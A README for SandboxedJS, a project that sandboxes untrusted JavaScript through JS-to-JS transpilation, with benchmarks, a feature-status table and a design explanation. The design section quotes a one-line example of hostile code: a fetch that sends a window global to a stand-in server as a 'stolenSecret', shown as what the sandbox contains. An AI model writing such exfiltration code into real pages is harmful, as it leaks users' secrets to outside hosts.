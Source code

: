 # SandboxedJS

Sandbox untrusted/arbitrary JavaScript code and safely execute it in isolation.

## Performance

Run `npm run benchmark` to benchmark SandboxedJS's `saveEval` against a native js `eval`. Currently most benchmarks comparisons show SandboxedJS is **~20x** slower than native JS. However, if you don't count the time required to transpile the code, execution time can be between **~1.3x to ~20x** slower than native JS, depending on the kind of work being performed. The goal for the MVP is to just get this thing working in a secure manner (breaking out of sandbox should be impossible), and optimizations can come later.

## Bindings to native and host JS APIs

One of the main focuses of this project is to support as many APIs as possible, both native ECMAScript APIs and host APIs (i.e. browser's `window` version of `globalThis`, DOM and such). To accomplish this, there is a separate node project under [bindings](https://github.com/joehinkle11/SandboxedJS/tree/main/bindings) which is responsible for taking in typescript definitions (i.e. a `lib.d.ts`) and then generated binding code for the sandbox environment. Recently all the hardcoded bindings were replaced with this system and only about 2 of the old unit tests (of the more than 15,000 unit test) are not passing. The hope is to get this binding generation system working so well that it makes it trivial to expose a JS library to the sandbox environment provided you have a typescript definition file for it.

## Status

Under active development. Looking for others to help out!

## JS Support 

| Feature | Status |
| ------- | ------ |
| primitives | ✅ |
| `number` | ✅ |
| `string` | ✅ |
| `boolean` | ✅ |
| `null` | ✅ |
| `undefined` | ✅ |
| `bigint` | ✅ |
| `symbol` | ⚠️ |
| autoboxing primitives to objects | ⚠️ works for some types like `Number` |
| binary operators (`+`, `-`, `%`, etc.) | ✅ |
| unary operators  (`+`, `-`, `typeof`, etc.) | ✅ |
| simple objects (i.e. `{a: true}`) | ✅ |
| arrays | ✅ |
| functions | ✅ |
| `this` | ⚠️ |
| `arguments` | ✅ |
| local variables | ✅ |
| assignment | ✅ |
| global variables | ⚠️ |
| prototypes | ⚠️ |
| `Object` global | ⚠️ |
| ternary operators | ❌ |
| global variables | ❌ |


| Legend |  |
| ------- | ------ |
| ✅ | Finished  |
| ⚠️ | In development  |
| ❌ | Haven't started work  |

## Comparison of JS in JS Implementations

| Name | Link | Performance |
| ----------- | ----------- | --------- |
| SandboxedJS |  | ~20x slower than native |
| js.js | https://github.com/jterrace/js.js/ | [~200x slower than native]()https://github.com/jterrace/js.js/#status |
| JS-Interpreter | https://github.com/NeilFraser/JS-Interpreter/ | [~200x slower than native](https://github.com/NeilFraser/JS-Interpreter/issues/227) |


## Design

Let's say we want to sandbox the following untrusted JS code:

```js
fetch("https://api.example.com?stolenSecret=" + window.globalValue);
```

In this example, the untrusted code is attempting to grab a global value it should NOT have access to and pass the value to its server. If this code was naively run with `eval`, the host environment would be compromised.

To make untrusted JS code safe to run, SandboxedJS rewrites the untrusted code using a JS-to-JS transpilation step. Then it is safe to run `eval` on the transpiled js code. The resulting transpiled code of the above example might look something as follows:

```js
sContext.sLookUp("fetch").sCall([
  SBinaryOps.sBinaryAdd(
    new SStringValue("https://api.example.com?stolenSecret="),
    sContext.sLookUp("window").sLookUp("globalValue")
  )
])
```

Note, the "s" prefix is short for "sandboxed".

To produce this code, SandboxedJS uses [acorn](https://github.com/acornjs/acorn) to produce an AST of the untrusted JS. It then walks the entire AST and emits each piece of the tree in the format above.

## Running Locally

Install deps: `npm i`

Run benchmarks: `npm run benchmark`

Run tests: `npm test`

Build to `lib` folder: `npm run build`

## Unique Features

 - Add metadata to any JS value which is invisible to the client (untrusted) JS code but visible to the host environment.
